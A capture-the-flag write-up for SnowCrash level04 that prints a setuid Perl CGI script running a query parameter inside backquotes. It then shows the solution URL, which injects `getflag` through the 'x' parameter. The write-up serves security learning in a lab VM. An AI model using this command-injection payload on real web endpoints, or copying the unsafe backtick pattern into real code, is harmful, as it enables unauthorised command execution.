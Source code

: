 # Level04

## Research
---------------

```bash
level04@SnowCrash:~$ ls -l
-rwsr-s-r-x 1 flag04 level04 152 Mar 5 2016 level04.pl
```
Again this setuid, that means this program can executes commands as flag04.

```perl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
- We can see 2 things:

1. localhost:4747 is used, as well as CGI. 
`CGI stands for Common Gateway Interface, it’s a protocol for executing scripts via web requests, and in the late 1990’s was the main way to write dynamic programs for the Web. It’s also the name of the Perl module we used [...] to code for the web.` <br/>
https://www.perl.com/article/perl-and-cgi/

2. The print uses \`\` (Backquotes), and any command put between backquotes will be executed.
https://www.tutorialspoint.com/unix/unix-quoting-mechanisms.htm

- How to send a parameter to CGI?
`The first way to pass data is with the query string, (the portion of a URI beginning with ?), which you see in URLs like https://example.com/?foo=bar. This uses the “GET” request method, and becomes available to the program as $ENV->{QUERY_STRING}, which in this case is foo=bar (CGI programs receive their arguments as environment variables).`
https://www.perl.com/article/perl-and-cgi/



## Solution
---------------

Steps:
  - Open a web browser and connect to the VM IP address on port 4747
  ```BASH
  http://10.0.2.15:4747/
  ```
  - Use the query string to pass the getflag command. We need to send \`getflag\` so that it will be executed (try echo \`getflag\` in terminal for example). `getflag` as a parameter will only print getflag.
  ``` bash
  http://192.168.1.67:4747/?x=`getflag`
  ```

 
The program returns the token directly, so we can go to level05 with `su level05`.
